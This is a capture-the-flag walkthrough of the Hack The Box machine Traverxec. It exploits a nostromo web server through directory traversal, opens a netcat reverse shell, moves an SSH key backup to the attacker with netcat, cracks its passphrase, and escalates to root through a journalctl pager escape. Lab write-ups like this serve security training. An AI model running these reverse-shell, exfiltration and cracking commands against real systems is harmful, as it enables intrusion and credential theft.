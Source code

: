 For all the machines I do, I always start off with an nmap scan.  First a quick port scan and then a detailed port scan.
I start off by using nmap -p- -T4 10.10.10.165
This shows us that we have two ports open, 22 and 80.  On hack the box we don't need to brute force SSH, because there's other ways in.

Let's go ahead and get some version information about the services and the operating system.
nmap -p22,80 -A -O -sV -T4 10.10.10.165 -oA Traverxec
Here we are specifcally scanning the ports that we know are open with -p22,80, we use -A for OS detection, version detection, script scanning and traceroute, -sV specifcally for identifying service versions, -T4 for speed (-T5 is fastest, but tends to knock over hosts), -O is for Operating System detection again, and finally -oA Filename will put the output out in 3 different formats

Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   52.86 ms 10.10.14.1
2   52.95 ms 10.10.10.165

Great we get the version of the http web server is 1.9.6.  Now we can visit the page and explore.  I always run dirbuster against web sites to look for the various directories.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.165

After visiting http://10.10.10.165/admin we trigger an error and once again see that the version is nostromo 1.9.6.  Searching google we find some exploit code here https://www.exploit-dm.com/exploits/43837.
This says it is remote code execution, perfect exactly what we need.

Looking through the usage we need a target IP, target port, and a command to pass it.  The vulnerability is due to directory traversal where we can make a POST request using a few .0%d/ and eventually call a shell.
we are starting at a specific directory where the web server is sitting and moving up directories until we can then move into /bin where all the binaries are stored.
If you want to view the contents of the binary folder or any folder just visit http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./ This link shows you the contents of root.
![Root Directory of host](https://github.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/blob/master/Traverxec/Index%20of%20root%20on%20machine.png)

Select the bin folder if you want to see what binaries you can run and home to see what users are on the machine.  

To use the exploit code just save the code from exploit db into a file called cve2019_16278.py.  Then we want to run the command.  From looking at /bin we know what different binaries we can call from visiting here http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./bin/.

The problem is a lot of them have 500 interal server error.  I made a list of all the files and then used foxy proxy and burp to capture the request of visiting http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./bin/apt-cache
Any binary path would work here.
![Apt-Cache Example](https://raw.githubusercontent.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/master/Traverxec/apt-cache%20example.png)

Once you open burp, go to the proxy tab and turn intercept on.  Also your foxy proxy needs to be configured to send traffic through burp which is listening in my case on 8080.
![Burp Intercepted Request](https://raw.githubusercontent.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/master/Traverxec/Burp%20Intercepted%20Request.jpg)


Once we get the request the first line will look like this:  GET /.0%D./.0%D./.0%D./.0%D./bin/apt-cache.  Right click the request and send to Intruder.
![Burp Set Up Intruder](https://raw.githubusercontent.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/master/Traverxec/Burp%20Set%20up%20Intruder.png)
In intruder choose Sniper as the Attack Type and highlight apt-cache or whatever is after /bin/ and click Add.  Then under the payloads tab, paste the list you made earlier of all the binaries and click start attack.
![Burp Snipe Attack Intruder]((https://raw.githubusercontent.com/wkbrdr8522/HackTheBox-Retired-Write-Ups/master/Traverxec/Burp%20Set%20up%20Intruder%202.png)
This could be slowed down if you are running the free Burp, which I am.

We notice that bash gets a 500 Status, but sh gets a 200, so let's use sh in our exploit.

First start a netcat listener on your kali machine, nc -nlvp 4444.  You can use any port here.
Now cd into the folder where your exploit code is saved at from above.  My code is called cve2019_16278.py, remember we need to give it a target IP, target port, and command.  I had to use quotes for commands to pass it the arguments.
python cve2019_16278.py 10.10.10.165 80 "nc -e /bin/sh 10.10.14.26 4444"
the IP after /bin/sh is your Hack The Box VPN and the port your netcat is listening on.

Check your connection and we have a shell!  Here is our initial access!
The problem is that our shell is pretty limited luckily we can upgrade it by using python!  python -c 'import pty; pty.spawn("/bin/sh")'
now we have an upgraded shell.
Check whoami and find our we are www-data.

Looking around check the /home directories to see who some of the users are, which the only one is david.  Check David's directory, we are denied access.
Let's look for configuration files by using the command:  find / -type f -iname '*.conf'
Here we are starting at the root directory and looking for files that are .conf.
We notice there'a file in /var/nostromo/conf/ titled nhttpd.conf.  There are some issues using commands on this machine, so you have to use the full path.  We want to cat out the file so do which cat to know the path.
Finally /usr/bin/cat /var/nostromo/conf/nhttpd.conf.  This file shows us that in home dirs there is a homedirs_public directory called public_www
Let's see what may be in that folder so do ls /home/david/public_www.  There a protected file area, maybe we can move into that directory.  cd /home/david/public_www/protected-file-area and list the files.  Great we have backup-ssh-identify-files.tgz!
Let's move this file over to our attacker machine, which we can do via netcat.  On kali run: nc -l -p 1234 > backup-ssh-identity-files.tgz.  Our machine is now waiting for that file.
Let's see where netcat lives on our target by doing which nc, it's in /usr/bin/nc. Now send that file to the attacker machine by doing /usr/bin/nc -w 3 10.10.14.26 1234 < backup-ssh-identity-files.tgz
Now we have the file on our target file, let's uncompress the file by doing tar zxvf backup-ssh-identity-files.tgz and cat out the id_rsa file that comes out.
Well the first thing we notice is the file is encrypted, but that's no issue for tools like John the Ripper!
We can use the program ssh2john which is a python program that can properly format the file so we can then crack the key for id_rsa.

I put this in my sbin folder on kali so I did cd /usr/sbin, then grab the file by doing wget https://github.com/magnumripper/JohnTheRipper/tree/bleeding-jumbo/run/ssh2john.py.
Now I copied the file over to my directory for HackTheBox where my id_rsa file is stored.  Then do python ssh2john.py id_rsa > crack.txt.  We are outputting this to crack.txt to later crack the password for the id_rsa file.  If you cat crack.txt you can see the id_rsa file that's formatted as id_rsa:$sshng etc.
Finally use JohnTheRipper to crack the key for that file by doing john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt   Here we are telling john what wordlist to use and what file to try and crack.  It quickly finds the key to be hunter.
Now let's decrypt the id_rsa file by using openssl.   openssl rsa -in id_rsa -out dec.key It will prompt you for the password so enter hunter.
Finally ssh into the target by doing, ssh -i dec.key david@10.10.10.165
Great we can access the machine via SSH and we can cat out the user.txt file and submit that to HackTheBox!

Now starts privilege escalation!

I always start off by seeing what my user can do with sudo, but since we don't have david's password, we can't actually check this.

when you ls on david's home directory we notice a /bin folder which is interesting, so cd into /bin.  There's a server-stts.sh file, remember to run this we have to call bash with the full path.
/usr/bin/bash ./server-stats.sh.  This shows us the last 5 journal log lines, let's look at the actual file, cat server-stats.sh.
Notice at the bottoms the script calls /usr/bin/sudo and then executes journalctl as root!  Great, we are on to something!
journalctl is a command for viewing logs collected by systemd.

Since we know we can display 5 lines, you need to change the size of your terminal so it doesn't display all the lines at the bottom you see lines 1-6
enter !/bin/sh
we are in a root shell, use whoami to verify, and finally simply cat /root/root.txt and that's the machine!  

I hope you enjoyed my journey through Traverxec!











